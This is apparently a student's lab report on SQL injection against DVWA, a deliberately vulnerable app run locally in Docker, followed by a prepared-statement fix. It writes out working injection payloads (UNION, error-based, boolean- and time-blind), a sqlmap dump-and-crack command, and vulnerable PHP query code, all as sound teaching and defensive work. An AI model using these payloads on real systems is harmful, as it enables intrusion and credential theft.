# WEB404 Secure Coding Practices — Practical Assignment 2

## SQL Injection: Attacking and Defending a Vulnerable Web Application

**Student ID:** 02230302
**Module:** WEB404, Secure Coding Practices
**Target application:** DVWA (Damn Vulnerable Web Application)
**Environment:** Local only, bound to `127.0.0.1` (Docker)

---

## Overview

This assignment attacks a web application with SQL injection, then defends it.

The work was done in four stages, and this report follows the same order:

1. **Set up a safe target.** DVWA is run locally in Docker, reachable only from this laptop.
2. **Attack it.** Five kinds of SQL injection are shown by hand, then the automated tool `sqlmap` repeats the whole thing.
3. **Compare security levels.** DVWA's Low, Medium and High settings each add a partial defence. The report shows how each one changes the attack but never stops it, and how the "Impossible" setting finally does.
4. **Prevent it.** The flaw is fixed with a parameterized query (a prepared statement), and the same attack is shown failing against the fixed code.

One idea runs through the whole report: every attack below works because of a single mistake, **user input being glued straight into a SQL query**.

---

## What is SQL injection?

A web application talks to its database using SQL queries. A query is just a sentence like "give me the user whose ID is 1". The problem starts when the application builds that sentence by pasting whatever the user typed directly into it.

SQL injection happens when an attacker types input that is not plain data but extra SQL. Because the user's input and the application's own SQL are in the same text string, the database cannot tell them apart. It runs the attacker's text as if the developer had written it.

**Why it is dangerous:**

- The attacker can read any data the database account can see, including usernames and password hashes.
- The attacker can change or delete data (`UPDATE`, `DELETE`, `DROP`).
- A login check can be fooled into letting someone in without the right password.

SQL injection sits under **A03:2021 – Injection** in the [OWASP Top 10](https://owasp.org/Top10/A03_2021-Injection/). Injection has stayed near the top of that list for over a decade because the root cause, trusting user input inside a command, is so easy to write by accident.

---

## Lab setup and ethical considerations

The target is **DVWA**, an application that is deliberately full of security holes so people can practise on it safely. It is run in Docker using the `docker-compose.yml` in this folder:

```bash
docker compose up -d        # starts DVWA on http://127.0.0.1:4280
```

**What this does:** starts the vulnerable app in a container and publishes it at `http://127.0.0.1:4280`.

The key line in `docker-compose.yml` publishes the app as `127.0.0.1:4280:80`. Binding to `127.0.0.1` (the loopback address) means the vulnerable app is reachable **only from this laptop**, never from the local network or the internet. This is the main ethical control.

After starting it, log in with `admin` / `password`, click **Create / Reset Database** to build the `users` table, then set **DVWA Security** to the level being tested.



**Ethics in short:** everything runs on one machine against a practice app built to be attacked. No real or third-party system is ever touched. Running these attacks against a system you do not own or have written permission to test is illegal, so the whole point of the lab is to learn how the attacks work in order to prevent them.

---

## The attacks (Low security)

DVWA's SQL Injection page has one input box, "User ID". At Low security the code (`dvwa_source/sqli_low.php`) builds the query like this:

```php
$id = $_REQUEST[ 'id' ];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

**What this does:** drops whatever the user typed straight between two single quotes, with no checking at all. That one line is the flaw behind every attack in this section. Typing `1` normally returns one user's name; the attacks below abuse the same box.

### 1. In-band / always-true

**Payload**

```
' OR '1'='1
```

**What this does:** the first `'` closes the quote early, and `OR '1'='1'` adds a condition that is always true, so the `WHERE` now matches every row instead of one. "In-band" means the stolen data comes straight back on the normal page.

Because `'1'='1'` is always true, the database returns every row instead of one.

**What it returned:** all five users (admin, Gordon Brown, Hack Me, Pablo Picasso, Bob Smith) instead of one.



### 2. UNION-based

A `UNION` bolts a second `SELECT` onto the first, so you can pull data out of other tables. Both `SELECT`s must return the same number of columns; a quick test with `ORDER BY` showed this query has two columns.

**Payload**

```
' UNION SELECT user, password FROM users #
```

**What this does:** the first `SELECT` matches nothing (`user_id = ''`), so the page shows only the second `SELECT`, which is the username and password of every account. The `#` comments out the leftover `';` that DVWA adds on the end.

**What it returned:**

```
admin   : 5f4dcc3b5aa765d61d8327deb882cf99
gordonb : e99a18c428cb38d5f260853678922e03
1337    : 8d3533d75ae2c3966d7e0d4fcc69216b
pablo   : 0d107d09f5bbe40cade3de5c71e9e9b7
smithy  : 5f4dcc3b5aa765d61d8327deb882cf99
```

These are **unsalted MD5** hashes. They are so weak that `5f4dcc3b...` is just the word `password`, and all of them are cracked later by `sqlmap`.



### 3. Error-based

At Low security DVWA prints the raw database error straight to the page. This attack deliberately causes an error that carries the stolen data inside the error text.

**Payload**

```
' AND extractvalue(1,concat(0x7e,(SELECT password FROM users WHERE user_id=1))) #
```

**What this does:** `extractvalue()` expects valid XPath. Starting the value with `0x7e` (the `~` character) makes it invalid, so MySQL gives up and prints an error, and that error quotes our stolen data back to us.

**What it returned:**

```
XPATH syntax error: '~5f4dcc3b5aa765d61d8327deb882cf99'
```

That is the admin password hash, leaked through the error message. (`extractvalue` only shows about 32 characters at a time, so longer values are read in pieces with `substring()`.)



### 4. Blind boolean-based

On the separate **SQL Injection (Blind)** page, no data and no errors are shown. The page only ever says **"User ID exists"** (true) or **"User ID is MISSING"** (false). That single true/false answer is enough to leak data one question at a time.

**First, confirm it reacts to true and false**

```
1' AND '1'='1     -> exists  (TRUE)
1' AND '1'='2     -> missing (FALSE)
```

**What this does:** proves the page's answer changes depending on a condition we control. "exists" for a true condition, "missing" for a false one.





From there, the data is rebuilt one character at a time: each request asks a yes/no question about a hidden value (for example, "is the first letter of the database name a `d`?"), and stringing enough of them together recovers the whole value.

### 5. Blind time-based

Sometimes even the text on the page never changes, so there is no true/false answer to read. In that case **time** becomes the signal: make the database pause only when the answer is yes.

**Payload**

```
1' AND IF(1=1, SLEEP(3), 0) #
```

**What this does:** `IF(condition, SLEEP(3), 0)` makes the database pause for 3 seconds only when the condition is true, so a slow reply means "yes" and an instant reply means "no". Swapping in a real question (such as a character test) and timing the reply leaks the answer one character at a time.

This was run from the terminal with `tools/sqli_time_test.sh` so the exact timing is visible:

```
FALSE condition : 0.017s
TRUE  condition : 3.016s
1st char = 'd'? : 3.014s   (TRUE)
1st char = 'x'? : 0.006s   (FALSE)
```



---

## Security levels

DVWA can be set to Low, Medium, High or Impossible. The point of this stage is that Medium and High add **partial** defences, but the query is still built by gluing strings together, so the data still leaks. Only Impossible changes how the query is built.

The same goal, dump every username and hash, was run against Medium and High using `tools/sqli_levels_demo.sh`:



| Level | Defence it adds | Why it still fails | Payload used |
|-------|-----------------|--------------------|--------------|
| **Low** | none | the input goes straight into the query | `' OR '1'='1` |
| **Medium** | a dropdown instead of a text box, plus some quote-escaping | the id is used without quotes, so no quotes are needed to attack, and the dropdown is only enforced in the browser (`curl` ignores it) | `1 UNION SELECT user, password FROM users #` |
| **High** | the id is entered on a separate page, plus `LIMIT 1` | the query is still built by pasting the input in, and `#` comments out the `LIMIT 1` | `' UNION SELECT user, password FROM users #` |
| **Impossible** | a prepared statement, plus a number check and a security token | the input can never become SQL code | **attack fails** |

**What this shows:** Medium and High change how the attack has to be written, but both still leak all five hashes. The defences treat symptoms; only the prepared statement at Impossible fixes the cause.

---

## Automated attack with sqlmap

`sqlmap` is the industry-standard tool that automates everything above. Pointed at the Low page with the logged-in session cookie (`tools/sqlmap_demo.sh`), it:

1. sent many test requests and found the `id` parameter injectable;
2. confirmed the same techniques done by hand (boolean-blind, error-based, time-based and UNION);
3. fingerprinted the stack (MariaDB, Apache, Debian);
4. dumped the `users` table and cracked the unsalted MD5 hashes with its own wordlist.

```bash
sqlmap -u "http://127.0.0.1:4280/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<session>; security=low" \
  --batch --flush-session \
  -D dvwa -T users --dump
```

**What this does:** `-u` is the injectable URL, `--cookie` passes the logged-in session and the Low security level, `--batch` answers all prompts automatically, and `-D dvwa -T users --dump` pulls the whole `users` table out of the `dvwa` database.



The cracked result (saved in `sqlmap-output/`):

```
admin : password      gordonb : abc123      1337 : charley
pablo : letmein       smithy  : password
```



**What this shows:** once a single parameter is injectable, pulling and cracking the whole user table is routine and takes one command.

---

## Prevention

### The real fix: parameterized queries

The fix is to stop building the query by pasting input into it. Instead, the SQL is written with a **placeholder**, and the input is handed to the database separately as data. DVWA's own "Impossible" code (`dvwa_source/sqli_impossible.php`) does exactly this:

```php
if (is_numeric($id)) {                                   // 1. check it is a number
    $data = $db->prepare(
        'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;');
    $data->bindParam(':id', $id, PDO::PARAM_INT);        // 2. input attached as DATA
    $data->execute();
}
```

**What this does:** the SQL text is fixed and contains only the placeholder `:id`. The database reads and plans the query **before** the user's value is attached, so that value can only ever be treated as a number to look up, never as SQL to run.

### Side-by-side demo in this folder

`prevention/vulnerable.php` and `prevention/secure.php` are the same login check written two ways: one pastes the input into the SQL, the other uses a prepared statement. They were run together with `tools/prevention_demo.sh`:

| Input | `vulnerable.php` | `secure.php` |
|-------|------------------|--------------|
| `admin` / `s3cr3t` (correct) | GRANTED | GRANTED |
| `admin' --` / wrong password | **GRANTED (bypassed)** | **DENIED** |
| `' OR '1'='1' --` / anything | **GRANTED (bypassed)** | **DENIED** |

With the attack input `admin' --`, the `--` comments out the password check in the vulnerable version, so the attacker is logged in as admin without a password. In `secure.php` the identical text is treated as data, matches no real user, and access is denied.



**What this shows:** the exact same attack that breaks into `vulnerable.php` does nothing to `secure.php`. Only the query-building method changed.

### Defence in depth

Parameterized queries are the fix. These extra layers limit the damage if something is still missed:

- **Least-privilege database account** — the app should log in with an account that can only do what it needs (for example `SELECT` on certain tables), never `DROP` or reach other databases. If an injection does slip through, it can do far less.
- **Input validation / allow-listing** — reject input that is the wrong type, such as a user ID that is not a whole number. A helpful extra layer, not a replacement for parameterization.
- **Safe error handling** — never show raw database errors to users; this alone kills the error-based attack above.
- **Strong password hashing** — store passwords with a slow, salted algorithm (bcrypt or Argon2), not unsalted MD5, so a leaked table is not cracked instantly.
- **Web Application Firewall** — filters common attack patterns at the edge, but it can be bypassed, so it supports the fix rather than replacing it.

---

## Conclusion

This lab set up DVWA locally and showed five kinds of SQL injection, in-band always-true, UNION-based, error-based, blind boolean and blind time-based, all caused by the same single flaw: user input pasted straight into a SQL query. Raising DVWA's security level showed that partial defences such as escaping, client-side dropdowns and `LIMIT 1` change how the attack is written but do not stop it, because they never remove that root cause. `sqlmap` showed how quick and routine the whole process is once one parameter is injectable.

The fix is simple and decisive: parameterized queries keep the SQL code and the user data separate, so input can only ever be a value. The `secure.php` demo proves it, as the same attack that walks into `vulnerable.php` is denied. With a least-privilege database account, input validation, safe error handling and strong password hashing layered on top, SQL injection is a solved problem in code that is written this way.

---

## References

- OWASP Top 10:2021, A03 Injection — https://owasp.org/Top10/A03_2021-Injection/
- OWASP SQL Injection Prevention Cheat Sheet — https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- CWE-89: Improper Neutralization of Special Elements used in an SQL Command — https://cwe.mitre.org/data/definitions/89.html
- DVWA (Damn Vulnerable Web Application) — https://github.com/digininja/DVWA
- sqlmap — https://sqlmap.org/
